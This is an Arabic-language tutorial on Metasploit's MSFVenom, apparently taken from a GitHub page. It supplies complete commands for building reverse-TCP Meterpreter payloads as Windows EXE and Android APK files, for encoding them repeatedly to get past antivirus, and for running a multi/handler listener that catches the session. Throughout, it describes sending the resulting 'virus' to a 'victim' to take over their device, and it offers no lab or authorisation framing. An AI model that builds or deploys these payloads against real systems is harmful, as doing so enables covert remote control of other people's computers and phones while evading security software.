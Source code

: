 ### **📌 MSFVenom: توليد وتحليل الـ Payloads (الشفرات الخبيثة) - شرح مبسط وعميق**

#### **🚀 ما هو MSFVenom؟**

**MSFVenom** هو أداة داخل **Metasploit** تُستخدم لإنشاء وتحليل الـ **Payloads**، وهي الأكواد الخبيثة اللي بنستخدمها لاختراق الأجهزة.

✳️ **باختصار:**

- بيستخدم لإنشاء **ملفات خبيثة (Payloads)** بأنواع وصيغ مختلفة مثل (EXE، APK، DLL...).
- بيتيح **تشفير الـ Payloads** عشان تعدي من برامج الحماية.
- يُستخدم لاختبار وتحليل كيفية عمل الـ Payload.

---

### **💡 الخلاصة بالمصري:**

**MSFVenom** هو اللي بيعمل الفيروس اللي هتبعته للضحية عشان تخترق جهازه.

- بتختار نوع الفيروس، وصيغته، وتقدر **تشفّره عشان ما يتكشفش بسهولة**.

---

## **🛠️ مميزات MSFVenom**

✅ **دمج بين أدوات msfpayload و msfencode** في أداة واحدة.  
✅ بيسمح **بتوليد Payloads بسرعة** بصيغ متعددة.  
✅ بيدعم **التشفير** لتخطي برامج الحماية.  
✅ بيوفر **خيارات متقدمة** مثل تحديد **IP & Port** اللي هيتصل بيهم الـ Payload.

---

### **🎯 خطوات عملية لاستخدام MSFVenom**

🚀 **الخطوة 1:** إنشاء Payload لاختراق ويندوز (EXE)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > virus.exe
```

🔹 **شرح الأمر:**

- `-p windows/meterpreter/reverse_tcp` ➝ اختيار نوع الـ Payload لاختراق Windows.
- `LHOST=192.168.1.10` ➝ عنوان الـ IP الخاص بك لاستقبال الاتصال العكسي.
- `LPORT=4444` ➝ البورت اللي هيتصل عليه الضحية.
- `-f exe` ➝ حفظ الملف بصيغة **EXE**.
- `> virus.exe` ➝ حفظه باسم **virus.exe**.

---

🚀 **الخطوة 2:** إنشاء Payload لاختراق هاتف أندرويد

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -o virus.apk
```

🔹 **شرح الأمر:**

- `-p android/meterpreter/reverse_tcp` ➝ اختيار Payload لاختراق أندرويد.
- `-o virus.apk` ➝ حفظ الملف باسم **virus.apk**.

---

🚀 **الخطوة 3:** إنشاء Payload مشفر لتخطي برامج الحماية

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > virus_undetectable.exe
```

🔹 **شرح التشفير:**

- `-e x86/shikata_ga_nai` ➝ نوع التشفير المستخدم.
- `-i 5` ➝ عدد مرات التشفير.
- `> virus_undetectable.exe` ➝ حفظ الفيروس بعد التشفير.

---

🚀 **الخطوة 4:** تشغيل المستمع (Listener) في Metasploit  
بعد توليد الفيروس وإرساله للضحية، لازم نشغل **MSFConsole** لاستقبال الاتصال:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
exploit
```

🔹 بمجرد ما الضحية يشغل الفيروس، **هتحصل على جلسة Meterpreter** تقدر تتحكم من خلالها في جهازه.

---

### **💡 الخلاصة بالمصري:**

1️⃣ **MSFVenom بيعمل الفيروس اللي هيستخدمه في الاختراق**.